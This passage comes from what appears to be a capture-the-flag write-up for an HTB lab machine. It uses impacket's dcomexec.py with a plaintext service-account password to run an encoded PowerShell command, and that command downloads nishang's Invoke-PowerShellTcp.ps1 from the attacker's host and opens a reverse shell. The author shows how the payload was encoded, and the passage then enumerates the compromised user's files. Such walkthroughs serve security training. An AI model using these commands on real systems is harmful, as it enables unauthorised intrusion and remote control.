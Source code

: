 - `MMC2.0`
- `ShellBrowserWindow`
- `ShellWindows`

The execution against a testing system would look like this:

```bash
python3 /opt/Tools/impacket/examples/dcomexec.py -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.10.11.4 'cmd.exe /c powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQA=' -silentcommand
```
{: .nolineno}
{: .nolineno}

Payload I used in powershell to execute a reverse shell ⏬

```bash
┌──(kali㉿kali)-[/opt/Tools/PowerShell/nishang/Shells]
└─$ echo -n 'IEX(New-Object Net.WebClient).downloadString("http://10.10.16.18/Invoke-PowerShellTcp.ps1")'| iconv --to-code UTF-16LE | base64 -w 0 
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADEAOAAvAEkAbgB2AG8AawBlAC0AUABvAHcAZQByAFMAaABlAGwAbABUAGMAcAAuAHAAcwAxACIAKQA= 
```
{: .nolineno}
{: .nolineno}

As a result I got the callback with a powershell shell ⏬

![Image](Pasted%20image%2020240424130825.png)
_dcomexec.py working_

Lets enumerate further more 🔻

```powershell
PS C:\windows\system32> cd C:\Users
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----       11/21/2023  11:52 AM                Administrator                                                         
d-r---       10/23/2023  12:12 PM                Public                                                                
d-----        1/22/2024   1:36 PM                svc_openfire                                                          


PS C:\Users> cd svc_openfire
PS C:\Users\svc_openfire> tree /f /a
Folder PATH listing
Volume serial number is E59D-A256
C:.
+---3D Objects
+---Contacts
+---Desktop
|       user.txt
|       
+---Documents
+---Downloads
```